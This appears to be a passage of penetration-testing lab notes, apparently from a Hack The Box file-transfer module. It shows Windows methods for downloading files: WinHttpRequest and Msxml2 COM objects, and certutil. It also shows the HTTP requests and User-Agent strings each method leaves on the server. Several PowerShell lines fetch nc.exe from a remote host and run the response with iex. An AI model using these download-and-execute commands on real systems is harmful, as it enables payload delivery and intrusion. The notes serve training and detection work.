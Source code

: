 {% code fullWidth="true" %}
```sh
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```
{% endcode %}

<mark style="color:orange;">**WinHttpRequest - Client**</mark>

{% code fullWidth="true" %}
```powershell
PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.ResponseText
```
{% endcode %}

<mark style="color:orange;">**WinHttpRequest - Server**</mark>

{% code fullWidth="true" %}
```shell-session
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```
{% endcode %}

**Msxml2 - Client**

{% code fullWidth="true" %}
```powershell
PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.responseText
```
{% endcode %}

<mark style="color:orange;">**Msxml2 - Server**</mark>

{% code fullWidth="true" %}
```powershell
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```
{% endcode %}

<mark style="color:orange;">**Certutil - Client**</mark>

{% code fullWidth="true" %}
```powershell
C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe 
C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
```
{% endcode %}

